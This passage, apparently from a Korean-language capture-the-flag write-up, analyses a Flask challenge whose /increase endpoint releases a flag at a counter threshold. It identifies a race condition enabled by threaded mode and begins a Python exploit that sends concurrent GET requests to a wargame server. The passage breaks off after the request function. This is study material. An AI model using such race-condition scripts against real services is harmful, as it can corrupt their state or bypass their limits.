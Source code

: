 `/increase`경로로 GET요청이 올 때마다 실행됨

`counter`가 `15 이상`이 되면 `flag`를 줌

조건은 `15보다 작을 때`와 `15보다 클 때`밖에 없기 때문에, `15에서 16`으로 넘어가려고 하면 `else`문이 실행됨

|

|

```python
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000, threaded=True)
```

`threaded=True`: 멀티스레딩 모드. 동시에 여러 요청을 처리할 수 있음. `Race Condition` 공격 가능

|

|

|

## Exploit

### Race Condition 공격 코드 작성

```python
import threading
import requests
```

멀티스레딩 사용을 위해 `threading`, HTTP 요청을 위해 `requests` 라이브러리 추가

|

```python
url = "http://war.knock-on.org:10015/increase" 
```

서버 url 설정

|

```python
def increase_counter():
    try:
        response = requests.get(url)
        print(response.text) # 서버 응답
    except Exception as e:
        print(e)
```

`url`에 `GET`요청을 보내고 응답을 `response`에 저장 후 출력

